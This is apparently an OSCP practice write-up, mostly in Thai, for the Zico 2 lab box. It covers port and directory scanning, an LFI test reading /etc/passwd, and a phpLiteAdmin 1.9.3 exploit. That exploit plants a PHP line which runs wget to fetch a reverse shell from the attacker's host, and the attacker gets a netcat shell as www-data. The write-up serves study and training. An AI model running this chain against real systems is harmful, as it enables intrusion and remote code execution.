






# OSCP Vulnhub Set 1 - Zico 2

Lab link: http://ccmtlab.ccmt.home.arpa:8888/user/missions/boxes?uuid=2bd816c6-a344-4397-9e5e-027546fb11c5

Target IP: 10.101.85.29

---

## Scanning and Enumeration

### Nmap

สแกน port ที่เปิดอยู่

```
nmap -Pn 10.101.85.29
```

เจอ ssh, http, แลพ rpcbind

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/14]
└─$ nmap -Pn 10.101.85.29           
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-09 02:16 -0400
Nmap scan report for 10.101.85.29
Host is up (0.0020s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind

Nmap done: 1 IP address (1 host up) scanned in 0.72 seconds
```

### Web Enum

เปิด ip ใน browser

```
http://10.101.85.29/
```

ยังไม่เจออะไรสำคัญ


หลังจากอ่าน page source พบว่ามีการเรียกใช้ path /view.php?page=tools.html ซึ่งมีโอกาสสูงที่โค้ด view.php จะใช้คำสั่งประเภท include() หรือ require() เพื่อดึงไฟล์ tools.html มาแสดงบนหน้าเว็บ และอาจเป็นช่องโหว่ LFI หากโค้ดไม่รัดกุม

```
[...snip...]

<a href="/view.php?page=tools.html" class="btn btn-default btn-xl sr-button">Check them out!</a>

[...snip...]
```

---

### Burp Suit

เปิด burp suit เพื่อดักจับ request ของลิ้งนี้

```
http://10.101.85.29/view.php?page=tools.html
```

ส่งไปที่ repeater




แก้ request เป็น ../../../../../etc/passwd แล้วกด send เพื่อทดสอบ LFI

```
GET /view.php?page=../../../../../etc/passwd HTTP/1.1
```

สำเร็จ มีช่องโหว่ LFI อยู่จริงๆ



---

### Gobuster

```
gobuster dir -u http://10.101.85.29 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,zip
```

เจอ dir ที่น่าสนใจ นั่นคือ dbadmin 

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/14]
└─$ gobuster dir -u http://10.101.85.29 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,zip
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.101.85.29
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,html,txt,zip
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index                (Status: 200) [Size: 7970]
index.html           (Status: 200) [Size: 7970]
img                  (Status: 301) [Size: 310] [--> http://10.101.85.29/img/]
tools                (Status: 200) [Size: 8355]
tools.html           (Status: 200) [Size: 8355]
view                 (Status: 200) [Size: 0]
view.php             (Status: 200) [Size: 0]
css                  (Status: 301) [Size: 310] [--> http://10.101.85.29/css/]
js                   (Status: 301) [Size: 309] [--> http://10.101.85.29/js/]
vendor               (Status: 301) [Size: 313] [--> http://10.101.85.29/vendor/]
package              (Status: 200) [Size: 789]
LICENSE              (Status: 200) [Size: 1094]
less                 (Status: 301) [Size: 311] [--> http://10.101.85.29/less/]
server-status        (Status: 403) [Size: 293]
dbadmin              (Status: 301) [Size: 314] [--> http://10.101.85.29/dbadmin/]
Progress: 1102790 / 1102790 (100.00%)
===============================================================
Finished
===============================================================
```

เข้าไปดู

```
http://10.101.85.29/dbadmin/
```

เจอไฟล์ test_db.php ถูกเก็บไว้



เปิดเข้าไปเป็นหน้าเว็บจัดการข้อมูลของ phpLiteAdmin v1.9.3



หาข้อมูลเกี่ยวกับช่องโหว่ของ phpLiteAdmin v1.9.3 ด้วย exploit db แล้วเจอ exploit นี้เขียนว่าเราสามารถทำ reverse shell ได้ จึงลองทำตามดู

```
https://www.exploit-db.com/exploits/24044
```

ไปที่ kali เตรียมโค้ด rshell

```
cp /usr/share/webshells/php/php-reverse-shell.php .
```

ตั้ง parameter ให้ตรงกับเครื่องของเรา

```
nano php-reverse-shell.php
# $ip = '10.101.55.195';  // CHANGE THIS
# $port = 1234;       // CHANGE THIS
```

Set up a netcat listener on port 4444:

```
nc -lvp 1234
```

Started a Python HTTP server on my machine to host the file.

```
python -m http.server 8000
```

ไปที่เว็บ Create New Database as hack.php.



Create new table.


เตรียมโค้ด

```
<?php system("wget http://10.101.55.195:8000/php-reverse-shell.php -O /tmp/reverse-shell.php; php /tmp/reverse-shell.php"); ?>
```

save เป็น text และกด create



เรียกใช้เพื่อให้โค้ดทำงาน

```
http://10.101.85.29/view.php?page=../../../../usr/databases/hack.php
```

กลับไปที่ listener จะเห็นว่าเราได้ shell มาแล้ว

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/14]
└─$ nc -lvp 1234
listening on [any] 1234 ...
ls
ls
ls
ls
10.101.85.29: inverse host lookup failed: Unknown host
connect to [10.101.55.195] from (UNKNOWN) [10.101.85.29] 47688
Linux zico 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
 02:34:45 up 1 day, 19:15,  0 users,  load average: 0.16, 0.06, 0.06
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```